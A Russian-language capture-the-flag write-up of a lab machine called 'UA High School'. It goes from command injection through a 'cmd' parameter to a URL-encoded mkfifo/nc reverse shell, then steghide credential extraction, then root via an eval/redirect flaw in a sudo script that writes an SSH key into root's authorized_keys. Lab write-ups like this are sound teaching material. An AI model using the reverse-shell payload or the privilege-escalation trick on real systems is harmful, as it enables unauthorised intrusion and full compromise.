# Write-up: UA High School

## Enumeration

Сканируем цель:

```bash
sudo nmap -sS -sV -sC --min-rate=1000 -p- 10.146.156.37
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: U.A. High School
```

## Port 80

Открывается дефолтная страница сайта:



`gobuster` находит каталог `assets`:



Прямой доступ к каталогу закрыт:



Значит, надо фаззить параметры внутри `assets`. Запускаем `ffuf`:

```bash
ffuf -u 'http://10.146.156.37/assets/index.php?FUZZ=id' \
  -mc all -ic -t 100 \
  -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt \
  -fs 0
```

Находим параметр `cmd`:

```text
cmd   [Status: 200, Size: 72, Words: 1, Lines: 1, Duration: 119ms]
```

## Command Injection

Можем выполнять команды через `cmd` и получать результат в base64:





## Reverse shell

Готовим payload через `mkfifo` и `nc`, кодируем в URL:

```text
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.192.3%204445%20%3E%2Ftmp%2Ff
```

Получаем шелл:



## Passphrase и картинка

В системе находим `passphrase.txt`:

```text
QWxsbWlnaHRGb3JFdmVyISEhCg==
```

Декодируем base64:

```text
AllmightForEver!!!
```

Также находим картинку, которой нет на сайте:



Скачиваем `oneforall.jpg` на свою машину:

```bash
# на машине жертвы
python3 -m http.server 8080

# на нашей машине
wget http://10.144.130.213:8080/oneforall.jpg
```



Проверяем сигнатуру — файл на самом деле **PNG**, а не JPG:



Меняем первые байты в hex-редакторе на сигнатуру JPEG:



Теперь `steghide` принимает файл. Passphrase у нас уже есть:



Получаем креды:

```text
deku:One?For?All_!!one1/A
```

Заходим по SSH и забираем первый флаг:



## PrivEsc

Проверяем `sudo`:

```bash
sudo -l
```

```text
User deku may run the following commands on ip-10-144-130-213:
    (ALL) /opt/NewComponent/feedback.sh
```

Смотрим скрипт:

```bash
cat /opt/NewComponent/feedback.sh
```

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

Фильтры блокируют бэктики, `)`, `$(`, `|`, `&`, `;`, `?`, `!`, `\`. Но **редирект `>` не фильтруется**, а значит, мы можем записать произвольный текст в произвольный файл от имени root.

Генерируем SSH-ключ:

```bash
ssh-keygen -t rsa -b 4096 -f ./my_root_key
```

Копируем публичную часть:

```bash
cat my_root_key.pub
```

Запускаем скрипт:

```bash
sudo /opt/NewComponent/feedback.sh
```

И на запрос feedback вводим:

```text
[PUB_KEY] >> /root/.ssh/authorized_keys
```

Где `[PUB_KEY]` — содержимое `my_root_key.pub`. Скрипт через `eval "echo $feedback"` выполнит запись ключа в `/root/.ssh/authorized_keys` от root:



Заходим под root:

```bash
ssh -i ./my_root_key root@<TARGET-IP>
```



## Итоговая схема (Kill Chain)

`/assets/index.php?cmd=` → `command injection` → `reverse shell` → `passphrase.txt (AllmightForEver!!!)` → `oneforall.jpg (PNG → JPG, steghide)` → `deku:One?For?All_!!one1/A` → `SSH` → `sudo feedback.sh (eval + redirect)` → `root authorized_keys` → `root`